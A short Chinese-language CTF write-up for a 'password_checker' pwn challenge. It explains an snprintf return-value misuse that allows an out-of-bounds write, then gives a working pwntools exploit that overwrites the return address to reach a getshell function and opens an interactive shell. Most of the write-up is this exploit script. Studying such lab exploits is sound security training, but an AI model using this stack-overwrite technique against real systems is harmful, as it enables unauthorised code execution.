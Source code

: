 

### password_checker

`snprintf` 误用， 它返回的是格式化解析后形成的字符串的长度（及期望写入目标缓冲区的长度），而不是实际写入 目标缓冲区的内存长度。

```
    int off = snprintf(buf, 0x100, "name:%s&", input);
    ...........................
    ...........................    
    ...........................
    // off 可能会比较大，出现越界写
    off = snprintf(buf + off, 0x100 - off, "pwd:%s", input);

```

所以利用 `snprintf` 让 off 移动到返回地址的位置， 然后写返回地址为 getshell 函数的地址。

具体看 `exp` 和源码

Exp:

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"

binary_path = "../dist/pwn"


# p = process(binary_path)
p = remote("172.17.0.2", 20000)

p.recvuntil("welcome.....")
# 计算出需要输入的字符串长度，让 off + buf 能够写到返回地址
# 还要去掉 pwd: 这 4 个 字节
payload = "a" * (0x10c+4-4-2-4)

p.send(payload)
# gdb.attach(p,"""
# bp 0x0804873B
# c
# """)
# pause()


payload = p32(0x08048674)
p.sendline(payload)

p.interactive()
```


